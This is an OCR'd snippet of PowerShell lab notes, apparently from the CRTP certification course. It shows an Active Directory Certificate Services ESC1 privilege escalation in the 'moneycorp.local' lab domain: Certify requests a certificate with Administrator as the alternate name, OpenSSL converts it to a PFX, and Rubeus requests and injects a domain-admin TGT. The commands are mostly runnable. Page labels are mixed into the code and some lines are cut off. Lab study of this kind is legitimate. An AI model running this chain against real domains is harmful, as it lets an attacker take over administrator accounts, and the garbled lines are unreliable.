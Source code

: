 ```powershell
# CERTIFICATE----- and save it to esc1.pem.
# We need to convert it to PFX to use it. Use openssl binary on the student VM to do that. I will use
# SecretPass@123 as the export password.
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -o
# Use the PFX created above with Rubeus to request a TGT for DA - Administrator!
C:\AD\Tools\Rubeus.exe asktgt /user:administrator /certificate:esc1-DA.pfx /password:SecretPass@123 /ptt
CRTP 22
certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:HTTPSCertificates /altname:Administrator
# copy the RSA Private Key and the CERTIFICATE into a file and rename it to cert.pem
# Use openssl to create cert.pfx (in Linux):
CRTP 23
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
# Use openssl to create cert.pfx (Windows):
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -o
# Requesting TGT with Certificate
.\Rubeus.exe asktgt /user:moneycorp.local\administrator /certificate:cert.pfx /ptt
exam
